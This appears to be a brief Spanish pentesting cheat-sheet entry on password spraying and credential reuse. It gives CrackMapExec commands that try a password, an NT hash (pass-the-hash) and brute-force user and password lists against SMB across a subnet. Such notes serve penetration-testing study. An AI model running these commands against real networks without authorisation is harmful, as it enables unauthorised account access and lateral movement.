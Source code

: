 # Spriying

Esta técnica se basa en la reutilización de credenciales, ya que una vez obtenida la contraseña de un usuario determinado podemos o bien tratar de ver en que equipos este se puede autenticar con estas credenciales.

### Con CrackMapExec

```arturo
crackmapexec smb 192.168.0.0/24 -u "<User>" -p "<Pass>"
crackmapexec smb 192.168.0.0/24 -u "<User>" -H "<NT-HASH>"

# Brute force passwords
crackmapexec smb 192.168.0.0/24 -u users.txt -p passwords.txt
```

